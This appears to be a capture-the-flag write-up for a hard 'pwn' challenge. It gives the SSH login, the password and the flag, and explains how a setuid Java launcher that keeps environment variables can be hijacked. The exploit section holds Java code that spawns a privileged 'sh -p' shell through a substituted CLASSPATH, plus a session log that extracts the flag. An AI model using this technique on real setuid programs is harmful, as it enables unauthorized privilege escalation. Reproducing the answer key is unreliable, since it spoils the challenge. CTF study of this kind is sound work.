 # Challenge name
## Description 

`ssh student@3.27.46.246`

Password: `Ayw8U1bm2D857UASzd`

Note: ssh will connect to a newly-created ephemeral docker container each time you connect - files will not persist.

Docker escape is not part of the challenge and is not known to be possible, but it would be a valid solution. Please avoid interfering with the containers of other participants if you manage to do so.

---

**Category:** 
pwn

**Difficulty:**
hard

**Author:** 
Jamie

**Flag:**

`AHOY{i_rep0rted_th15_bu9_f1ve_yarr5_ag0}`

## Exploit
You want to read `/demo_files/FlagCheck.class`, but you don't have permission, you can only run it via the setuid `demo` executable. The binary fails to strip (most) environment variables. As such, you can take over execution as the `demo` user. For exmample:

1. Make an alternative FlagChecker.java, e.g. the following, and `javac` it

```
import java.lang.ProcessBuilder;
import java.lang.ProcessBuilder.Redirect;
import java.lang.Process;
import java.lang.Exception;

class FlagCheck {
	public static void main(String[] argv) {
		    ProcessBuilder pb = new ProcessBuilder("sh", "-p");
		    pb.inheritIO();
		    try {
		    Process p = pb.start();
		    p.waitFor();
		    } catch (Exception e) {e.printStackTrace();}
	}
}
```

2. Run demo as `CLASSPATH="/path/to/folder/with/malicious/FlagChecker/dot/class" ./demo yarr101 flag`
3. Get a shell
4. Exfiltrate the original class file for decompilation, or simply use `strings` (provided on the server):

```
student@gretarr-pt ~ % CLASSPATH=/home/student /demo yarr101 flag
$ whoami
demo
$ strings FlagCheck.class | grep AHOY
(AHOY{i_rep0rted_th15_bu9_f1ve_yarr5_ag0}
$   
```

Other techniques are likely possible. For example, `JVM_JAVA_OPTIONS` can be used to provide additional args to the JVM - the `-cp` arg can be used to control the classpath as above, and I imagine there are more exotic solutions invovling e.g. attaching a debugger to the JVM using this variable. `_JAVA_OPTIONS` and `JAVA_TOOL_OPTIONS` *do not work* for some reason, and I have no idea why - seemingly the JVM disregards these if euid != ruid.

